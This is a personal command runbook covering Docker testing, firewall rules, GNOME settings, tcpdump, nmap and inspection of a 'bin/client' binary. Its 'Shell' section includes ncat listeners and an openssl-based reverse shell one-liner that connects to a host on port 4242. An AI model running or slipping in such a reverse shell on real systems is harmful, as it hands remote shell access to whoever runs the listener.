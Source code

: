 # Runbook

...

## Docker test environment

Start container:

```bash
docker run --name vmtest --rm -dit nicolaka/netshoot bash
docker cp bin/client vmtest:/client
docker exec -it vmtest bash
````

Check the host gateway from inside the container:

```bash
ip route | grep default
```

---

## Firewall (UFW)

Allow incoming connections to TCP port **8969**:

```bash
sudo ufw allow from 192.168.0.0/24 to any port 8969 proto tcp
```

---

## GNOME utils

Set wallpapers:

```bash
gsettings get org.gnome.desktop.interface color-scheme
#gsettings set org.gnome.desktop.interface color-scheme 'prefer-dark'
gsettings get org.gnome.desktop.background picture-uri
#gsettings get org.gnome.desktop.background picture-uri-dark
gsettings set org.gnome.desktop.background picture-uri 'file://<image-path>'
#gsettings set org.gnome.desktop.background picture-uri-dark 'file://<image-path>'
```

Open terminal with msg:

```bash
sudo su <USER>
gnome-terminal -- bash -c "cowsay 'Hello world'; exec bash"
```

## Shell

Upgrade shell:

```bash
ncat -lvnp 4242
#python shtty.py
```

SSL:

```bash
ncat --ssl -lvnp 4242 --ssl-cert cert.pem --ssl-key key.pem
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.x:4242 > /tmp/s; rm /tmp/s
#mkfifo /tmp/s; python -c 'import pty; pty.spawn("/bin/sh")' < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.x:4242 > /tmp/s; rm /tmp/s
```

## SSL

Generate SSL cert:

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

## tcpdump

```bash
sudo tcpdump -i any tcp port 4242 -n -vv
#sudo tcpdump -i any tcp port 4242 -n -X
sudo tcpdump -i any host 192.168.0.x and port 4242 -n -X -w conn4242.pcap
```

## nmap

```bash
nmap -p- -sV 192.168.0.x
sudo nmap -sS -p- 127.0.0.1
```

## etc

```bash
sudo ss -antup
sudo lsof -p <PID>
nc -vz <HOST> <PORT>

loginctl list-sessions
loginctl show-session <SESSION> -p Name -p State -p Type -p Display

readelf -h bin/client
objdump -x bin/client
ldd bin/client
strings -a bin/client | less
objdump -d bin/client | less
strace -f -o trace.log bin/client
ltrace -f -o ltrace.log bin/client
sudo sysdig proc.name=client
gdb bin/client

sudo tcpdump -i any -w sample.pcap
sudo inotifywait -r /tmp /var /home -m

sha256sum bin/client
md5sum bin/client


```



...


